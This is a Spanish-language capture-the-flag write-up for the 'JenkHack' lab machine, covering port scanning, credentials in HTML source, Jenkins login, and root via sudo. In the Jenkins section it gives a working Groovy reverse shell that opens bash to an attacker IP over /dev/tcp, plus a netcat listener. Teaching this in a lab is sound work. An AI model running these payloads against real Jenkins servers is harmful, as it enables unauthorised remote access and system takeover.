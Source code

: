 # Informe de Penetration Testing – Máquina *JenkHack*

**Nivel:** Fácil

**Objetivo:** Obtener acceso root en la máquina vulnerable mediante Jenkins

![Logo](/JenkHack/Imagenes/Logo.jpeg)

---

## 1. Despliegue de la Máquina

Se descarga la máquina vulnerable desde el portal de DockerLabs, obteniendo un archivo comprimido llamado `jenkhack.zip`. Procedemos a descomprimirlo con el siguiente comando:

```bash
unzip jenkhack.zip
```

Luego, se despliega el contenedor utilizando el script proporcionado:

```bash
sudo bash auto_deploy.sh jenkhack.tar
```

![Despliegue](/JenkHack/Imagenes/Despliegue.jpeg)

Una vez desplegado, verificamos la conectividad hacia la máquina vulnerable con un simple ping:

```bash
ping -c1 172.17.0.2
```

![Ping](/JenkHack/Imagenes/Ping.jpeg)

---

## 2. Escaneo de Puertos

Realizamos un escaneo de puertos completo usando Nmap para identificar los servicios activos:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
```

Se identificaron los siguientes puertos abiertos: `80`, `443`, y `8080`.

![Puertos Abiertos](/JenkHack/Imagenes/Puerto.jpeg)

Con mi script personalizado `extractPorts`, extraigo los puertos abiertos y realizo un escaneo más profundo para obtener las versiones de los servicios:

```bash
nmap -sV -sC -p80,443,8080 172.17.0.2 -oG target.txt
```

![Servicios Detectados](/JenkHack/Imagenes/Servicios.jpeg)

---

## 3. Análisis Web

### Puerto 80 (HTTP)

Al acceder mediante navegador al puerto 80, observamos una página web sencilla.

![Página Web](/JenkHack/Imagenes/Pagina.jpeg)

### Puertos 443 y 8080

En el puerto 8080 se encuentra una interfaz de inicio de sesión que parece ser Jenkins. Al intentar autenticar, redirige a la página principal en el puerto 80 si las credenciales son válidas en el puerto 443 es la pagina para entrar a la pagina de Jenkins.

![Interfaz de Inicio de Sesión](/JenkHack/Imagenes/Registro.jpeg)

---

## 4. Revisión de Código Fuente y Credenciales

Realicé un análisis de código fuente del HTML alojado en el puerto 80. En el mismo se encontraron posibles credenciales embebidas:

* Usuario: `jenkins-admin`
* Contraseña: `cassandra`

![Código Fuente con Credenciales](/JenkHack/Imagenes/Fuente.jpeg)

Como solo había dos posibles valores, realicé un ataque de fuerza bruta manual combinando las credenciales. Logré iniciar sesión correctamente con:

* Usuario: `jenkins-admin`
* Contraseña: `cassandra`

![Sesión Iniciada](/JenkHack/Imagenes/Sesion.jpeg)
![Jenkins Panel](/JenkHack/Imagenes/Jenkins.jpeg)

---

## 5. Ejecución de Reverse Shell

Para obtener una shell inversa, primero configuramos un listener en la máquina atacante:

```bash
sudo nc -lvnp 4444
```

![Escucha Netcat](/JenkHack/Imagenes/Escucha.jpeg)

Dentro del panel de Jenkins, navegamos a:

`Administrador de Jenkins` → `Consola de scripts`

Allí ejecutamos el siguiente código Groovy para generar una reverse shell:

```groovy
def cmd = ["/bin/bash", "-c", "bash -i >& /dev/tcp/192.168.1.10/4444 0>&1"]
def proc = new ProcessBuilder(cmd).redirectErrorStream(true).start()
proc.waitFor()
```

> Asegúrate de reemplazar `192.168.1.10` con la IP de tu máquina atacante.

![Consola Jenkins](/JenkHack/Imagenes/Consola.jpeg)
![Reverse Shell](/JenkHack/Imagenes/RevelShell.jpeg)

---

## 6. Post-Explotación

Ya dentro del sistema, identificamos que estamos dentro del contenedor como el usuario `jenkins`.

Navegando al directorio `/var/www/jenkhack` encontramos un archivo `note.txt` que contenía una cadena sospechosa codificada:

```
jenkhack:C1V9uBl8!'Ci*`uDfP
```

![Contenido del Archivo](/JenkHack/Imagenes/Terminal.jpeg)

La cadena parece estar codificada en Base85. Utilizamos Python para decodificarla:

```bash
python3
```

```python
import base64
base64.a85decode("C1V9uBl8!'Ci*`uDfP")
```

Esto reveló el texto plano: `jenkinselmejor`.

![Decodificación Base85](/JenkHack/Imagenes/Bash85.jpeg)

Estas nuevas credenciales (`jenkhack:jenkinselmejor`) nos permitieron cambiar de usuario en la máquina:

```bash
su jenkhack
```

---

## 7. Escalada de Privilegios

Con el nuevo usuario, verificamos los permisos `sudo`:

```bash
sudo -l
```

Esto reveló que teníamos permisos para ejecutar comandos como root sin contraseña. Aprovechamos esto para crear un script Bash que nos proporcionara un shell elimando el bash.sh exixtente:

```bash
rm bash.sh
echo -e "#!/bin/bash\n\nexec /bin/bash" > bash.sh
chmod +x bash.sh
./bash.sh
```

![Evidencia Total](/JenkHack/Imagenes/ALL.jpeg)

Esto nos dio acceso root al sistema.

![Acceso Root](/JenkHack/Imagenes/Root.jpeg)

---

## Conclusión

La máquina vulnerable *JenkHack* permitió practicar varias fases del hacking ético:

* Reconocimiento con Nmap.
* Análisis web manual.
* Descubrimiento de credenciales en código fuente.
* Uso del panel de Jenkins para ejecutar comandos maliciosos.
* Decodificación de una contraseña en Base85.
* Escalada de privilegios mediante `sudo`.

Esta máquina es excelente para principiantes que deseen familiarizarse con Jenkins y técnicas comunes de explotación en contenedores Docker.
